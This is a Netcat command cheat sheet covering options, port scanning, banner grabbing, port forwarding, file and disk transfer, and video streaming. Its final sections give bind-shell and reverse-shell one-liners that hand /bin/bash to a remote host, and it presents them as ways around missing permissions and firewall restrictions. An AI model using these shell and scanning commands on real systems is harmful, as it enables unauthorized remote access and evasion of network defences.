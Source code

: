 ```yaml
---
title: Netcat
date: 2020-11-25 18:28:43
background: bg-blue-600
tags:
  - ncat
  - nc
  - utility
  - network
  - traffic
categories:
  - LinuxCommand
intro: This cheat sheet provides various for using Netcat on both Linux and Unix.
plugins:
  - copyCode
---
```


## Getting Started {.cols-5}

### Usage {.col-span-2}

Connect to a host located anywhere

```shell script
$ nc [options] [host] [port]
```

Listen for incoming connections

```shell script
$ nc -lp port [host] [port]
```

### Option examples {.col-span-3 .row-span-2}

| Option | Description                | Example                                  |
| ------ | -------------------------- | ---------------------------------------- |
| `-h`   | nc -h                      | Help                                     |
| `-z`   | nc -z 192.168.1.9 1-100    | Port scan for a host or IP address       |
| `-v`   | nc -zv 192.168.1.9 1-100   | Provide verbose output                   |
| `-n`   | nc -zn 192.168.1.9 1-100   | Fast scan by disabling DNS resolution    |
| `-l`   | nc -lp 8000                | TCP Listen mode _(for inbound connects)_ |
| `-w`   | nc -w 180 192.168.1.9 8000 | Define timeout value                     |
| `-k`   | nc -kl 8000                | Continue listening after disconnection   |
| `-u`   | nc -u 192.168.1.9 8000     | Use UDP instead of TCP                   |
| `-q`   | nc -q 1 192.168.1.9 8000   | Client stay up after EOF                 |
| `-4`   | nc -4 -l 8000              | IPv4 only                                |
| `-6`   | nc -6 -l 8000              | IPv6 only                                |

### Chat client-server {.col-span-2}

Server (192.168.1.9)

```shell script
$ nc -lv 8000
```

Client

```shell script
$ nc 192.168.1.9 8000
```

## Netcat Examples

### Banner grabbing

```shell script
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```

or

```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25

```shell script
$ nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080

```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

```shell script
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```

or

```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server (192.168.1.9)

```shell script
$ nc -lv 8000 < file.txt
```

Client

```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.

### Upload file

Server (192.168.1.9)

```shell script
$ nc -lv 8000 > file.txt
```

Client

```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:

### Directory transfer

Server (192.168.1.9)

```shell script
$ tar -cvf – dir_name | nc -l 8000
```

Client

```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer {.col-span-2}

Server (192.168.1.9)

```shell script
$ openssl enc -des3 -in file.txt -pass pass:password | nc -l 8000
```

Client

```shell script
$ nc 192.168.1.9 8000 | openssl enc -des3 -d -pass pass:password -out file.txt
```

Encrypt data before transfering over the network

### Clones

Server (192.168.1.9)

```shell script
$ dd if=/dev/sda | nc -l 8000
```

Client

```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server (192.168.1.9)

```shell script
$ cat video.avi | nc -l 8000
```

Client

```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server (192.168.1.9)

```shell script
$ nc -lv 8000 -e /bin/bash
```

Client

```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission
to install them, then we can create remote shell using netcat also.

### Reverse shell

Server (192.168.1.9)

```shell script
$ nc -lv 8000
```

Client

```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections
